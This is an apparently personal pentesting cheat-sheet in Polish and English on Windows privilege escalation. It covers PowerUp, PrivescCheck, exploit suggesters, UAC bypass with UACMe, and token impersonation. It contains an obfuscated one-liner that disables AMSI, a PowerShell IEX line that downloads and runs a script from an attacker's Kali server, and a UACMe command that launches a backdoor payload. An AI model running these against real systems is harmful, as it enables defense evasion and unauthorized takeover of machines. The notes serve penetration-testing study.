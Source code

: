 # Hacktrix
https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/

# Privilege Escalation

# Identyfying PrivEsc Vulns

## $ PowerUp.ps1
program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities.
https://rootrecipe.medium.com/advanced-powerup-ps1-usage-ad0f6d713a9f
### Loading From Disc

```PowerShell
# (PowerShell execution policy bypass)
powershell -ep bypass 
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# chyba opcjonalnie
# disable AMSI (probably hasn’t been patched by Microsoft)
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

# Running PowerUp.ps1
PS C:\> Import-Module PowerUp.ps1PS 
C:\> . .\PowerUp.ps1
```

### Loading From Your Kali Apache Server
```PowerShell
PS C:\> IEX(New-Object Net.WebClient).DownloadString(‘http://<kali_ip>/PowerUp.ps1’)
```

## $ PrivescCheck

https://github.com/itm4n/PrivescCheck

```PowerShell
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
runas.exe /user:administrator cmd
```

## Windows PrivEsc

*Winlogon*- automatyczne logowanie użytkownika  
obtaining user account credentials protocols we use to authenticate with the Windows target: **RDP, SMB, WinRM**

# Kernel

## Windows-Exploi-Sugester

**Stara Wersja**: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

**Nowa Wersja**: https://github.com/bitsadmin/wesng

## $ windows-privesc-check

paczka w kali

## $ msf>local_exploit_suggester

mając sesję meterpreter można zanaleźć exploit do podniesienia uprawnień

# User Acces Control Bypass

- UAC to prompt o hasło do lokalnego administratora jeśli użytkownik nie jest adminem lub jeśli jest to pytajacy o potwierdzenie wykonania akcji.
- Jeśli ma sie shella i chce się wykonać coś z uprawnieniami administratora to nie ma możliwości interakcji z tym oknem.
- UAC pozwala na wykonanie programu z uprawnieniami admina.
- **Wymagane jest konto admina lokalnego** na maszynie aby wykonać UAC bypass.
## $ msf
![[Metasploit#Bypas UAC]]

## UACMe

https://github.com/hfiref0x/UACME

```PowerShell
# wgrać na maszynę program Akagi (UACMe) oraz payload
# wykonać program za pomocą Akagi64.exe
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.ex
```
# Access Token Impersonation

Windows access tokens are a core element of the authentication process on Windows and are created and managed by the **Local Security Authority Subsystem Service (LSASS)**.

Access tokens are generated by the winlogon.exe (login page) process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process.  

This token is then attached to the userinit.ex (proces używany do uruchamiania innych procesów) process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.

An access token will typically be assigned one of the following security levels:

- **Impersonate-level tokens** are created as a direct result of a **non-interactive login on Windows**, typically through specific system services or domain logons.
- **Delegate-level tokens** are typically created through an **interactive login on Windows**, primarily through a traditional login or through remote access protocols such as RDP.

Impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.  
Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

The following are the **privileges that are required** for a successful impersonation attack:

- SeImpersonatePrivilege: This allows a user to create a process under the security context of another user typically with administrative privileges.

Dodatkowe
- SeAssignPrimaryToken: This allows a user to impersonate tokens.
- SeCreateToken: This allows a user to create an arbitrary token with administrative privileges.

## $ msf>incognito
![[Metasploit#incognito]]

## PrivescCheck
https://github.com/itm4n/PrivescCheck